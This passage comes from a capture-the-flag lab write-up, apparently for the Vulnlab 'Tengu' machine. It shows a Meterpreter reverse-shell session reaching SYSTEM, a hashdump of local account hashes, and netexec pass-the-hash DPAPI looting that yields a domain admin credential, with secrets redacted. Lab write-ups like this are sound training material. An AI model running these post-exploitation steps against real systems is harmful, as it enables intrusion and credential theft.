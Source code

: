 The callback came in with privileges as `NT AUTHORITY\SYSTEM` and granted us access to the `second flag (Tengu_User-2)`

```c
[*] Sending stage (201798 bytes) to 10.10.186.230
[*] Meterpreter session 2 opened (10.8.0.2:9696 -> 10.10.186.230:50987) at 2024-03-29 09:01:58 -0400

meterpreter >
```

```c
C:\temp>whoami
whoami
nt authority\system
```

## root.txt (Tengu_User-2)

```c
C:\Users\Administrator\Desktop>type root.txt
type root.txt
VL{REDACTED}
```

## Post Exploitation on SQL.tengu.vl

As mentioned earlier we `dumped` the `hashed` on `SQL.tengu.vl` which I did by using `hashdump`.

```c
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
```

## Dumping Data Protection API (DPAPI)

With the newly gathered `hash` of the `Administrator` we dumped the content of the `Data Protection API (DPAPI)` and got credentials of `T0_C.FOWLER` which was a member of the `DOMAIN ADMINS@TENGU.VL` group.

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q netexec smb 'SQL.tengu.vl' -u 'Administrator' -H 'REDACTED' --local-auth --dpapi
SMB         10.10.186.230   445    SQL              [*] Windows 10.0 Build 20348 (name:SQL) (domain:SQL) (signing:False) (SMBv1:False)
SMB         10.10.186.230   445    SQL              [+] SQL\Administrator:REDACTED (Pwn3d!)
SMB         10.10.186.230   445    SQL              [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         10.10.186.230   445    SQL              [+] Got 4 decrypted masterkeys. Looting secrets...
SMB         10.10.186.230   445    SQL              [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{3C0BC8C6-D88D-450C-803D-6A412D858CF2} - TENGU\T0_c.fowler:REDACTED
```
